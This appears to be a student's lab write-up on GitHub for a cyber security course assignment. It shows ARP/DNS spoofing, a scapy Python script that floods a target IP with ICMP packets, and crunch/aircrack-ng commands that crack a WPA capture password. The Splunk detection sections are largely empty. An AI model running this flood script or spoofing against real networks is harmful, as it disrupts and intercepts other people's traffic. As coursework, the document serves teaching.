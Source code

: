 # Implementation of Arpspoof tool and Splunk SIEM Tool with cracking password

## Use the arpspoof tool to perform the following attacks [10 Marks] 
  ### a. Use ARP packets to perform the DNS spoofing attack. Whatever the website the user types, it should navigate to http://testphp.vulnweb.com/login.php as a part of the attack.



![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/7aa715a7-f962-44f0-97cc-f385e310c1a2)

Victim: 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/6bc5f582-d90e-4437-89a5-d24a3c943829)

Arp Spoof Started

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/20502860-fc28-4804-b4df-5574b945e6aa)

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/62716f88-d63d-40fe-afed-46705ce83537)

Dns Spoof Host

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/8986bd4a-d11a-48e5-bcae-b1766c17cf90)



  ### b. Use ICMP Packets to perform only DDOS attacks over the victim. 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/86edcb21-1696-4996-bd73-bc886422d8e8)

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/bac150a5-3d56-4bf6-87b2-89101e60a150)

```
from scapy.all import *

# Function to send ICMP packets
def send_icmp_packet(dst_ip):
    icmp_packet = IP(dst=dst_ip)/ICMP()
    send(icmp_packet, loop=True, verbose=False)

# Main function
def main():
    target_ip = input("Enter the target IP address: ")
    while True:
        send_icmp_packet(target_ip)

if __name__ == "__main__":
    main()
```

DDOS Attack is performed



## 2. Use Splunk to answer the following questions:
  ### a. Capture these above attacks using Splunk in an active or passive method. (10 Marks)

Passive Method
![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/96ff1ae2-98f7-4f65-97ad-956fbe7bd15e)


![Uploading image.png…]()








  
  ### b. Identify and Analyse the Indicator of Compromise for the attack. (5 Marks)









  
  ### c. Explore and create an Alert for similar attacks in the Future. (5 Marks)


## 3. Use the given PCAP file to analyse and answer the following questions:

  ### a. Decrypt the traffic by cracking the password using appropriate tools and techniques. It is a must to mention briefly your method of cracking the password in the documentation. [HINT: password length – 16, Capital letter – 2, numerals – 6, It is a repetition of the same word as [CyberCyber].[6 Marks]

First we have to create a word list with `Crunch` command 

`crunch 8 8 ,@@@@123 -o temp.txt`

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/fc706b18-c6de-4d33-8ce2-d03f2880b1cd)

`sed "s/^\(.\{8\}\)$/\1\1/" temp.txt > final.txt`

then we will make for 16 characters with concatination command 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/1483d82a-173b-49ec-8f8a-64de86e90157)

If we directly crack the password using the cap file it will show as unsupported file so we need to change the formate of the file with tcpdump tool
`tcpdump -r Downloads/midterm.cap -w output.pcap`

we have to crack password by using wordlist in `aircrack-ng tool`
`aircrack-ng output.pcap -w final.txt`

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/c8293b2b-a9aa-4c5c-99cf-81480c740b10)

Password Cracked: `Cisco123Cisco123`

  ### b. Analyse the decrypted traffic using tools to identify the malicious/suspicious activity recorded in the WLAN. [4 Marks]

Now we have to open Wireshark and add our password in keys to decypt the pcap file 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/c34c9bfd-61b1-4177-9ff1-c22dbeeb61e7)

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/dd34ea48-917f-4a50-a1fa-146c9933d8a7)

On Analyzing the pcap file, we can get to know that Voip call is made throgh Skinny Protocol and all details regarding the call are available in this pcap 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/4c571bf1-337d-49b6-8d31-4770dfc3dce3)

First Connection is established with Skinny Protocol then Communication is being performed RTP and at last connection is disabled

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/0a700cf5-0b81-4e30-985e-a38360ca6b5f)

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/2d425d52-d0ad-4e94-b561-9760d858cf32)









  
